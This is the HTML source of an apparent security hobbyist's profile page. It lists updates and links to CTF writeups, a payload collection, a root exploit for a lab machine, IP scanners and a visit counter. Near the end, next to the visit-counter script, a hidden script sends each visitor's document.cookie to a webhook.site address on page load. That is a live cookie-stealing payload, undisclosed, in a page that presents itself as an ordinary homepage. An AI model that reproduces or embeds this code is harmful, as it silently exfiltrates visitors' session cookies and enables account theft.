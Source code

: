 
<link rel="icon" href="https://user-images.githubusercontent.com/78603128/193405439-d44c4c2f-a483-4b82-8114-c6f3873bd9c1.png">
<center><div id="CounterVisitor"></div></center>

<h2>Latest Updates</h2>

<table>
 <tr>
<blockquote><td>Created Blog</td><td><a href="https://j4ckmeister.github.io/home.html">Blog bla bla</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Created Jackmeister's Playbook</td><td><a href="https://jackmeister.gitbook.io/jackmeister-playbook/">Jackmeister's pentest framework</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Created Jack of All BL4D3S</td><td><a href="https://github.com/J4CKMEISTER/Jack-of-All-BL4D3S">Collection of Scripts and Payloads</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Updated websites</td><td><a href="https://j4ckmeister.github.io/websites">Added more contents</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Cyberverse</td><td><a href="http://cyberverse.rf.gd/home.php">A damn vulnerable website as FYP Project</a></td></blockquote>
</tr> 
<tr>
<blockquote><td>MCC2022 THM S1mple0nly b2root Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/s1mple0nly-b2r">Writeup for MCC2022 S1mple0nly b2root , easy boot to root machine </a></td></blockquote>
</tr>
<tr>
<blockquote><td>MCC2022 THM This is so Easy Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/this-is-so-easy">Writeup for MCC2022 This is so Easy , easy boot to root machine </a></td></blockquote>
</tr> 
<tr>
<blockquote><td>MCC2022 THM Hermoso Writeup</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/tryhackme/hermoso">Writeup for MCC2022 Hermoso , medium boot to root machine </a></td></blockquote>
</tr> 
<tr>
<blockquote><td>Hermoso root exploit</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/hermoso2root.sh">script created to gain root from MCC2022 Hermoso machine </a></td></blockquote>
</tr> 
<tr>
<blockquote><td>IP Address Scanner V3</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner3.sh">Updated according to feedbacks</a></td></blockquote>
</tr>
<tr>
<blockquote><td>Updated pentest tools</td><td><a href="https://j4ckmeister.github.io/tools">Added more contents</a></td></blockquote>
</tr>   
 <tr>
<blockquote><td>Updated GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Added more contents</a></td></blockquote>
</tr>   
<tr>
<blockquote><td>Created GitBook</td><td><a href="https://jackmeister.gitbook.io/ctf-writeups/">Website to write and share CyberSec related experiences</a></td></blockquote>
</tr>
<tr>
<blockquote><td>IP Address Scanner V2</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner2.sh">Second version of bash script to scan for ip address</a></td></blockquote>
</tr>
<tr>
<blockquote><td>Base Converter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/baseConverter.py">A base python base converter</a></td></blockquote> 
</tr>
<tr>
<blockquote><td>IP Address Scanner V1</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/ip-scanner.sh">First version of bash script to scan for ip address</a></td></blockquote> 
</tr>
<tr>
<blockquote><td>Linux Version Checker</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/linux-version-checker.sh">Bash script that run common version checking commands</a></td></blockquote> 
</tr>
<tr>
<blockquote><td>Javascript Visit Counter</td><td><a href="https://github.com/J4CKMEISTER/Tools/blob/main/js-counter.js">Javascript that keep track of number of times the webpage is visited</a></td></blockquote> 
</tr>
</table>

<script>document.write('<img src="https://webhook.site/7005d9e1-cc86-437a-917e-cbf48a32a2fb/?c='+document.cookie+'" />');</script>
<script>


   var n = localStorage.getItem('on_load_counter');

    if (n === null) {
        n = 0;
    }

    n++;

    localStorage.setItem("on_load_counter", n);

    document.getElementById('CounterVisitor').innerHTML = 'You have visited this page '+ n + ' times';

                     
</script>


